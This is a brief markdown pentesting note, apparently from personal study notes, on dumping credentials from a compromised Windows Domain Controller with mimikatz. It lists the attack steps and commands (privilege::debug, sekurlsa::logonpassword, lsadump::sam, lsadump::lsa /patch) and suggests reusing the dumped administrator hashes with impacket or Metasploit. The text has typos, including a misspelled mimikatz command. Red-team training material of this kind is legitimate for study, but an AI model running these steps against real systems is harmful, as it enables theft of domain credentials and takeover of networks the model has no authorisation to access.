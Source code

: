 - - -
If we have compromised the **Domain Controller**, then we can use this.
Learn more about mimikatz [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki)

- - -
> [! Note ] 
> ( use cheetsheets )

## Attacking Steps : 

☐ Go and download it [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
☐ Then Treansfer it to windows. ( Domain Controller's system )
☐ Unzip it.

```cmd
 cd path\to\mimikatz 
 mimikatz.exe 
 
 mimicatz #  privilege::debug                            ( Do always )
 mimicatz #  sekurlsa::logonpassword 
 mimicatz #  lsadump::sam 
 mimicatz #  lsadump::lsa /patch 
 
```

now go and run more comands....

Don't worry if you are failing to dump “**sam**”. You have **DC** and **Administrators** **hash** which we can use to dump “**sam**” with **impackets**, **Metasploit**, etc.

- - -
